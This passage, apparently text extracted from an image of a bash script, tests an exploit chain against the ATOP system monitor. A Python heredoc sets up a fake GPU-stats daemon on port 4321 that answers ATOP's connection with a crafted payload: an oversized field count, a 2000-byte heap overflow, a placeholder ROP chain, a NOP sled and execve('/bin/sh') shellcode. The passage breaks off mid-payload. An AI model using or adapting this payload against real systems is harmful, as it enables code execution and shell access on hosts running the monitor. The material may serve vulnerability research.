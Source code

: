     # Test connection
    echo "[+] Testing automatic connection..."
    echo "GET_GPU_STATS" | nc localhost 4321 || echo "[-] Connection test failed"
    
    # Cleanup
    kill $DAEMON_PID 2>/dev/null
    echo "[+] Automatic connection test completed"
}

# Function to test combined exploit chain
test_combined_exploit() {
    echo ""
    echo "=== TESTING COMBINED EXPLOIT CHAIN ==="
    echo "Multi-phase exploitation sequence"
    
    cat > combined_test.py << 'EOF'
import socket
import threading
import time
import struct

class CombinedExploitTest:
    def __init__(self):
        self.daemon_running = False
        
    def start_malicious_daemon(self):
        def daemon():
            server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            server.bind(('0.0.0.0', 4321))
            server.listen(5)
            
            print("[+] Phase 1: Malicious daemon started")
            self.daemon_running = True
            
            try:
                client, addr = server.accept()
                print(f"[+] Phase 2: ATOP connected from {addr}")
                
                request = client.recv(1024)
                print(f"[+] Request: {request[:50]}")
                
                # Create advanced payload
                payload = b"GPU_ADVANCED:"
                payload += b"999:"  # Excessive field count
                payload += b"EXPLOIT_GPU:"
                payload += b"A" * 2000  # Heap overflow
                payload += struct.pack("<Q", 0x4141414141414141) * 10  # ROP chain
                payload += b"\x90" * 100  # NOP sled
                payload += b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"  # shellcode
                payload += b"\n"
                